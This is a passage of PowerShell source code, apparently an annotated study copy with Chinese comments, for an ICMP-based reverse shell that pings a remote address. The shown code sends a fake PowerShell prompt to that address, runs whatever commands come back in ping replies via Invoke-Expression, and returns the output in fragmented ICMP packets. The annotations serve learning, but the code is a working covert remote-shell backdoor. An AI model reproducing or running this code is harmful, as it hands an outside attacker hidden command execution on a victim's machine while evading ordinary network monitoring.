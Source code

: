 ```
    )

    #Basic structure from http://stackoverflow.com/questions/20019053/sending-back-custom-icmp-echo-response

    # 调用ping的.net对象
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping

    # 调用ping设置的.net对象,DontFragment=True表示可以将传输数据分成多个包传输
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True

    # Shell appearance and output redirection based on Powerfun - Written by Ben Turner & Dave Hardy

    # 发送信息为 [Windows PowerShell running as user Fay.D.Flourite on DESKTOP-LGQQ5JH\nCopyright (C) 2015 Microsoft Corporation. All rights reserved.\n\n] 的ascii编码信息，out-null放弃输出。这里和底下同为模拟powershell的输出界面。

    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    #Show an interactive PowerShell prompt
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {   
        # while True发送空字节用于接收server发送的命令，并判断数据包
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        
        #Check for Command from the server
        if ($reply.Buffer)
        {   
            #取出数据包中缓冲区的命令
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)

            # invoke-Expression 简写iex 用于执行命令 2>&1 表示把错误输出定向到输出中
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)

            # 用于计算需要发送的数据包的个数然后取整，小于规定长度除后取整就是0
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            # 判断发送长度是否大于规定数据包长度
            #Fragmant larger output into smaller ones to send to the server.
            if ($sendbytes.length -gt $BufferSize)
            {   
                # 判断i是否小于index，将result分成每128字节发送一次
                while ($i -lt $index )
                {
                    # 截取sendbyte的128位发送
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }

                # 取余数判断长度是否为规定长度的整数倍，是就跳过，不是就发送剩余的值
                $remainingindex = $sendbytes.Length % $BufferSize
```